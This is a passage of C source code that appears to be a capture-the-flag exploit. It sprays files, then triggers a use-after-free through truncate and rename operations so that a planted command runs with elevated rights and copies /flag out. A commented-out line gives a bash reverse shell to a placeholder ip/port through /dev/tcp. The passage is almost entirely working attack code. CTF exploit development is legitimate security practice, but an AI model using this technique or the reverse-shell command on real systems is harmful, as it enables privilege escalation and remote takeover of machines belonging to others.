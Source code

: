 ```c
		exit(-4); \
	} \
} while (0);

#define TRUNCATE(x, size) do { \
	if (0 != ftruncate(files[x], size)) { \
		perror("truncate"); \
		exit(-5); \
	} \
} while (0);

#define RENAME(a, b) do { \
	if (0 != rename(a, b)) { \
		perror("rename"); \
		exit(-5); \
	} \
} while (0);

#define MKDIR(a) do { \
	if (0 != mkdir(a, 0)) { \
		perror("mkdir"); \
		exit(-6); \
	} \
} while (0);

#define CLOSE(x) do { close(files[x]); } while (0);



int files[1024];
char buf[0x600];
char filename[0x100];
struct stat st;

char *cmd = "cp /flag /chroot/rwdir/flag";
//char *cmd = "bash  -c 'bash -i >& /dev/tcp/ip/port 0>&1' &";

int main()
{
	puts("fill root dir");
	for (int i = 0; i < SPRAY_SIZE+2; i++) {
		sprintf(filename, "/mnt/fill%d", i);
		OPEN(0, filename, O_RDWR | O_CREAT);
		CLOSE(0);
	}

	for (int i = 0; i < SPRAY_SIZE+2; i++) {
		sprintf(filename, "/mnt/fill%d", i);
		UNLINK(filename);
	}

	puts("create uaf");
	OPEN(0, "/mnt/1.txt", O_RDWR | O_CREAT);
	TRUNCATE(0, 0x300);
	CLOSE(0);

	OPEN(0, "/mnt/free.txt", O_RDWR | O_CREAT);
	strcpy(buf, cmd);
	WRITE(0, 0, strlen(buf) + 1);
	CLOSE(0);

	RENAME("/mnt/1.txt", "/mnt/2.txt"); // & uaf
	OPEN(0, "/mnt/2.txt", O_RDWR);
```